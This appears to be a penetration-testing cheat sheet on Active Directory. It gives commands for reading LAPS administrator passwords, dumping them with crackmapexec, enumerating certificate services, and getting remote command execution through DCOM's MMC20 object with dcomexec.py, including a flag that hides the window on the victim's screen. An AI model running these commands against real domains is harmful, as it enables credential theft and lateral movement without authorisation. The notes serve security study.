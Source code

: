 # LAPS
**LAPS** allows you to manage the local **Administrator** password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES       

When using LAPS, 2 new attributes appear in the computer objects of the domain: ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

# Commands
```powershell
# Check if LAPS is activated
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

# Dumping Credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```



# Active Directory Certificate Services (ADCS)
Active Directory Certificate Services (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.     
- [https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview)

## Enumeration
Here, one should look for services that haven't been discovered before.
```sh
crackmapexec ldap <ip> -u <username> -p <password> -M adcs
```



# Abusing COM & DCOM
## Explanation of the Technologies
### COM
COM is, simply put, a method for sharing binary code across different applications and languages.

COM solves all these problems by defining a binary standard, meaning that COM specifies that the binary modules (the DLLs and EXEs) must be compiled to match a specific structure. The standard also specifies exactly how COM objects must be organized in memory. The binaries must also not depend on any feature of any programming language (such as name decoration in C++).

### DCOM
Specifies the Distributed Component Object Model (DCOM) Remote Protocol, which exposes application objects via remote procedure calls (RPCs) and consists of a set of extensions layered on the Microsoft Remote Procedure Call Extensions.

## Exploitation
A DCOM application **MMC20** allows for snap-in operations. One method withing the application is name `ExecuteShellCommand`. As the name suggests
this allows for command execution over the network.

### POC
One can use Impacket's `dcomexec.py` script to obtain RCE.          
```bash
dcomexec.py <domain>>/<user>:<password>@<ip> <command> -silentcommand -object MMC20
```
*-silentcommand is needed, as otherwise a cmd window will open up on the victim's screen*


## References
- [https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model?redirectedfrom=MSDN)
- [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN)
- [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
- [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)